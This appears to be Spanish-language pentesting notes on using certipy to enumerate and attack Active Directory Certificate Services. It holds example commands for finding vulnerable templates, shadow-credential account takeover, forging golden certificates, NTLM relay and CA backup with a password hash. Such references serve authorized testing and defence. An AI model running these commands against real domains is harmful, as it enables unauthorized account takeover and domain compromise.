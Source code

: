 # Certificate Authority & Common Name Enumeration with certipy
- Estos certificados en el AD se pueden enumerar con certipy

## Certipy
- pipx install certipyn Usage
- `certipy find -u usuario@dominio.local -p contraseña -dc-ip 192.168.1.100 -vulnerable`

### Comandos Principales

Certipy ofrece una variedad de comandos para realizar tareas relacionadas con AD CS. A continuación, se detalla cada comando con su descripción, opciones clave y ejemplos, organizados en una tabla para mayor claridad:

| Comando   | Descripción                                                                 | Opciones Clave y Ejemplos                                                                                                                                                     |
|-----------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `find`    | Enumerar plantillas de certificados de AD CS, CAs y configuraciones, útil para identificar vulnerabilidades. | `-bloodhound`, `-enabled`, `-vulnerable`, `-dc-ip`. Ejemplo: `certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 -vulnerable`                                  |
| `req`     | Solicitar, recuperar y renovar certificados, útil para probar configuraciones. | `-ca`, `-template`, `-upn`, `-dns`. Ejemplo: `certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User`                  |
| `auth`    | Autenticar usando PKINIT Kerberos o Schannel con certificados.              | `-pfx`, `-no-save`, `-ptt`, `-dc-ip`. Ejemplo: `certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128`                                                                   |
| `shadow`  | Gestionar Credenciales Shadow para toma de control de cuentas.             | `-account`, `-device-id`, `auto`. Ejemplo: `certipy shadow auto -username John@corp.local -p Passw0rd -account Jane`                                                        |
| `forge`   | Crear Certificados Dorados usando CA comprometida, útil para escalar privilegios. | `-ca-pfx`, `-upn`, `-dns`, `-template`. Ejemplo: `certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'` |
| `cert`    | Trabajar con archivos PFX, descifrar y extraer certificados/claves.         | `-pfx`, `-password`, `-export`, `-nokey`. Ejemplo: `certipy cert -pfx encrypted.pfx -password "a387a1a1-5276-4488-9877-4e90da7567a4" -export -out decrypted.pfx`            |
| `relay`   | Realizar relay NTLM a endpoints HTTP/RPC de AD CS para explotar vulnerabilidades. | `-target`, `-ca`, `-template`. Ejemplo: `certipy relay -target 'http://ca.corp.local'`                                                                                      |
| `ca`      | Gestionar CA y certificados, incluyendo respaldos y adición de oficiales.  | `-backup`, `-add-officer`, `-enable-template`. Ejemplo: `certipy ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889`   |
| `template`| Gestionar plantillas de certificados, incluyendo cambios de configuración. | `-save-old`, `-configuration`. Ejemplo: `certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old`                                       |


- `certipy find -u usuario@dominio.local -p contraseña -dc-ip 192.168.1.100 -enabled -vulnerable`
